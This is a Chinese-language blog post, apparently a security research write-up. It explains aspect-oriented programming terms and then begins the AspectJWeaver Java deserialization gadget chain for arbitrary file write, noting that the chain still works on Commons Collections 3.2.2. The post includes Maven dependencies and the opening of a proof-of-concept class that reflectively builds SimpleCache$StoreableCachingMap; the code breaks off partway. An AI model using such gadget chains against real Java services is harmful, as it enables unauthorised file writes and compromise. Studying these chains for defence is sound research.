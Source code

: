 # 0x01 What is AspectJWeaver

AspectJWeaver运用在面向切面编程(AOP: Aspect Oriented Programming)中

AOP是一种编程范式，旨在提高模块化、降低代码耦合度。它可以向现有代码添加其他行为而不修改代码本身。Spring就运用到了AOP

AOP的一些概念：

* 切面(Aspect): 公共功能的实现。如日志切面、权限切面、验签切面。给Java类使用`@Aspect`注释修饰，就能被AOP容器识别为切面
* 通知(Advice): 切面的具体实现，即切面类中的一个方法，根据放置的地方不同，可分为前置通知（Before）、后置通知（AfterReturning）、异常通知（AfterThrowing）、最终通知（After）与环绕通知（Around）
* 连接点(JoinPoint): 程序在运行过程中能够插入切面的地方。Spring只支持方法级的连接点。比如一个目标对象有5个方法，就有5个连接点
* 切入点(PointCut): 用于定义通知应该切入到哪些连接点
* 目标对象(Target): 即将切入切面的对象，被通知的对象
* 代理对象(Proxy): 将通知应用到目标对象之后被动态创建的对象，可以简单地理解为，代理对象的功能等于目标对象本身业务逻辑加上共有功能。代理对象对于使用者而言是透明的，是程序运行过程中的产物。目标对象被织入公共功能后产生的对象。
* 织入(Weaving): 将切面应用到目标对象从而创建一个新的代理对象的过程。这个过程可以发生在编译时、类加载时、运行时。Spring是在运行时完成织入，运行时织入通过Java语言的反射机制与动态代理机制来动态实现。

大概了解一下，跟下面讲的利用链没啥关系

# 0x02 Any File Write

这个利用链用到了CC依赖。回忆一下，Commons Collections 3.2.2中 增加了⼀个⽅法`FunctorUtils#checkUnsafeSerialization` ⽤于检测反序列化是否安全，其会检查常⻅的危险Transformer类，当我们反序列化包含这些对象时就会抛出异常。

`AspectJWeaver`这里只用到了CC里的`LazyMap`、`TiedMapEntry`、`ConstantTransformer`，高版本CC仍具有实用性。

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.2</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.9.2</version>
</dependency>
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        String path = "E:/";
        String fileName = "AspectWrite.txt";
        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = clazz.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
```